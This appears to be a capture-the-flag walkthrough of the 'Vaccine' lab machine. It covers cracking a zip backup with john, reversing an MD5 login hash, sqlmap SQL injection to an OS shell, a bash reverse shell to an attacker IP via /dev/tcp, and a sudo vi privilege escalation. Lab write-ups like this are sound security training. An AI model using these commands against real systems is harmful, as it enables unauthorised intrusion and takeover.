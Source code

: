 # Vaccine (starting point)

## Enumeration

> FTP, ssh, Apache web server (with auth)

## Exploration

We got FTP credentials from the previous machine:
`ftpuser mc@F1l3ZilL4`, gives us access.

The content is a single zip file, encrypted.

## Password Bruteforcing

### Open The Backup

The content of the zip is most likely the source code of the index page served
by the Apache service.

We can use its `style.css` to check for bruteforce success:

```bash
zip2john -a style.css backups.zip > hash
john --session=zipfile \
  --wordlist=/usr/share/wordlists/passwords/rockyou-75.txt
  hash
```

> 741852963

### Guess The Login Page Credentials

The index.php shows that the password is against a MD5 hash:

```php
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")
```
A simple google search (rainbow tables) gives us `qwerty789`.

## SQL Injection

The page is clearly an html view of a SQL table, so let's try SQLi.

```bash
sqlmap -u http://10.10.10.46/dashboard.php?search= \
  --cookie="PHPSESSID=7eb7u026276nlqk0s15vv34bkl" --os-shell
```

> Postgres with multiple vulnerabilities

sqlmap gives us a shell from the get-go so we can step-up with a reverse bash:

```bash
nc -lvnp 4444 -s 10.10.16.59
bash -c 'bash -i >& /dev/tcp/10.10.16.59/4444 0>&1'
```

## Lateral Movement

Exploring, we open `/var/www/html/dashboard.php` and find the credentials for
the user `postgres`:

> `postgres` is allowed to ssh!

## Privilege Escalation

`sudo -l` shows that `postgres` can issue one special command:

> `/bin/vi /etc/postgresql/11/main/pg_hba.conf`.

And in `vi` you can execute any command with `:!command`

> including `:!/bin/bash`!


